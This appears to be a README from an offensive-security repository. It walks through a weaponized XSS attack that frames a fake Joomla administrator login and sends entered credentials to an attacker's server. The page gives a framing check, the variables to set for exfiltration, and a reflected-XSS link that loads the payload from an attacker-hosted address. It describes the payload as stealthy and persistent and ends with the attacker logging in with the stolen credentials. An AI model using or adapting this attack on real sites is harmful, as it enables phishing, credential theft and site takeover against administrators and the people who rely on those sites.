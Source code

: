 # [Phish] Iframe Login Page

* **NOTES**:
  * stealthy
  * persistent
    * exploit stays active:
      * upon failed login
      * upon logout (i.e. login ➔ logout)
    * exploit will remain active until victim's web browsers cache is cleared
  * avoids excessive log spam
    * exploit exfiltrates credentials only on submit form event (logs both successful and failed authentication attempts)

## Test Environment

### Web Browsers (20250426)

* [x] Mozilla Firefox 137.0.2 (64-bit)
* [x] Google Chrome 135.0.7049.115 (64-bit)
* [x] Microsoft Edge 135.0.3179.98 (64-bit)

## Exploitation Steps

1. [test target login page] navigate to target application in web browser

    http://192.168.5.19

2. [test target login page] confirm target login is iframe-able

    *(open developer console and execute following code)*

    ```
    const url = "http://192.168.5.19/administrator/";
    const req = new XMLHttpRequest();
    req.open("GET", url, false);
    req.send(null);
    console.log("Endpoint: " + url + "\nX-Frame-Options (response header): " + req.getResponseHeader("X-Frame-Options"));
    ```

    * **NOTE**: default install value: `SAMEORGIN` (vulnerable)

3. [setup exploit] change payload variable values (`phishLoginJoomla.js`)

    `exfilWebServer` - web server URL for credential exfiltration

    `joomlaRoot` - path to Joomla installation on the target system (e.g. `"/joomla"`)

4. [setup exploit] setup web server (to serve the payload)

5. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.19/rxss.php?q=<script src=http://192.168.5.5/phishLoginJoomla.js></script>
    ```

    * **NOTES**:
      * `192.168.5.19` - target Joomla site
      * `192.168.5.5` - web server hosting the payload

6. [social engineering attack] victim user authenticates

    *(attacker obtains credentials)*

7. [post exploit] attacker logs into target Joomla site using obtained credentials

    http://192.168.5.19/administrator/

## Screenshot

* **NOTE**: the screenshot covers steps 3 to 6 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Joomla/IframeLogin/screenshots/Joomla_-_iframe_login_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Joomla/IframeLogin/screenshots/Joomla_-_iframe_login_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/416232be-16b4-4324-9321-d9c3058b9ff9
